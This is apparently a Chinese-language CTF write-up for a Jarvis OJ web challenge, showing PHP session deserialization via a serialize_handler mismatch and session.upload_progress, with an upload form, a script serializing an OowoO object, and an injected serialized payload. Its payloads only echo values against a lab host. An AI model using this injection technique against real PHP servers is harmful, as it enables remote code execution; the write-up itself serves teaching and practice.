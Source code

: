 ```php
?>
```

先看一下`phpinfo()`的信息，先查看一下`session.serialize_handler`

| session.serialize_handler | php  | php_serialize |
| ------------------------- | ---- | ------------- |

`php.ini`中使用的引擎是`php_serialize`，而程序中使用的引擎是`php`，这就导致`session`在`序列化`和`反序列化`使用的引擎不同，接下来来看看这个选项

| session.upload_progress.enabled | On   | On   |
| ------------------------------- | ---- | ---- |

>PHP手册
>
>Session 上传进度
>
>当 `session.upload_progress.enabled` INI 选项开启时，PHP 能够在每一个文件上传时监测上传进度。 这个信息对上传请求自身并没有什么帮助，但在文件上传时应用可以发送一个POST请求到终端（例如通过XHR）来检查这个状态
>
>当一个上传在处理中，同时POST一个与INI中设置的`session.upload_progress.name`同名变量时，上传进度可以在`$_SESSION`中获得。当PHP检测到这种POST请求时，它会在`$_SESSION`中添加一组数据, 索引是 `session.upload_progress.prefix` 与 `session.upload_progress.name`连接在一起的值

构造`POST`表单，提交传入序列化字符串

```html
<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="m0c1nu7" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

构造利用脚本

```php
<?php
class OowoO
{
    public $mdzz='echo(dirname(__FILE__));';
}
$obj = new OowoO();
$a = serialize($obj);
echo $a;
?>
```

序列化结果:

```php
O:5:"OowoO":1:{s:4:"mdzz";s:24:"echo(dirname(__FILE__));";}
```

抓包，传值:

```php
|O:5:"OowoO":1:{s:4:"mdzz";s:10:"echo(111);";}
```
